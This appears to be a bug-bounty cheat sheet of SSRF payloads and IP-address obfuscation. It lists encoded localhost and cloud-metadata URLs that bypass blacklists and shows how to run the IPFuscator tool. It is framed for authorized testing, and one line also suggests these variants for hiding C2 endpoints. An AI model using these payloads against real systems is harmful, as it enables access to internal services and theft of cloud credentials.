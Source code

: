 # 🛑 SSRF Payloads & IPFuscation Guide
![SSRF Payloads   IPFuscation Guide](https://github.com/user-attachments/assets/20e64ea1-60d5-4e09-82eb-f96fc28c8b4b)

---

## 🛑 Some SSRF Payloads

**Classic Bypasses**
- `http://00000`  
- `http://2130706433` (127.0.0.1 as decimal)  
- `http://0x7f.1` (hex + dot notation)  
- `http://metadata` (short & sweet)

**Why these work**
- Blacklists often miss decimal/hex/octal IP encodings.  
- `00000` → `0` → `localhost` in many parsers.  
- Short hostnames like `metadata` can bypass filters that only check for the full cloud metadata IP (`169.254.169.254`).

**Pro Tips**
- Try `http://0x7f000001` (hex full IP)  
- Use IPv6 forms like `http://[::]:80` for IPv6 bypass attempts  
- Mix case in hostnames: `MetaData` or `MeTadAta` (some filters are case-sensitive)

> ⚠️ SSRF blacklists are the easiest to bypass. Most regex filters fail on even basic encoding tricks. Use these techniques only in authorized testing environments.

---

## 🛠 What is IPFuscation?

**IPFuscation** is the practice of representing IP addresses in alternative formats (decimal, hexadecimal, octal, or mixed forms) which many parsers still interpret as the same target address. This can defeat naive blacklist filters, logging rules, or simple string matches used in defenses.

**Tool:** IPFuscator  
- Repo: `https://github.com/vysecurity/IPFuscator`

**Usage**
```bash
git clone https://github.com/vysecurity/IPFuscator
python ipfuscator.py 127.0.0.1
```

**Sample outputs**
- Decimal: `2130706433`  
- Hexadecimal: `0x7f000001`  
- Octal: `017700000001`  
- Mixed Formats: `0x7f.0x0.0.01` or `0177.0.0.01`  
- Padded/obfuscated: `0x000000000007f.0x000000000000000000000000000000.0x0000.0x0000000000000000000000001`

You can use these variants in URLs, command arguments, or C2 endpoints to evade simple detections.

**Why it works**
- Many defenses match literal strings like `127.0.0.1` or `localhost`.  
- Alternative representations of the same IP often bypass naive filters or regexes.

---

## 🧠 Safety & Ethics
- Only use SSRF payloads and IP obfuscation techniques on systems you are authorized to test.  
- Misuse can lead to serious legal consequences and harm other systems.  
- When testing cloud metadata endpoints, avoid exfiltrating secrets — focus on detection and responsible disclosure.

---

## 🔗 References & Tools
- IPFuscator: https://github.com/vysecurity/IPFuscator  
- OWASP SSRF Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

---

Follow **@[cybersecplayground](https://t.me/cybersecplayground)** for daily payload drops, recon tricks, and bug bounty tips.  
#SSRF #BugBounty #WebSecurity #RedTeam #Hacking
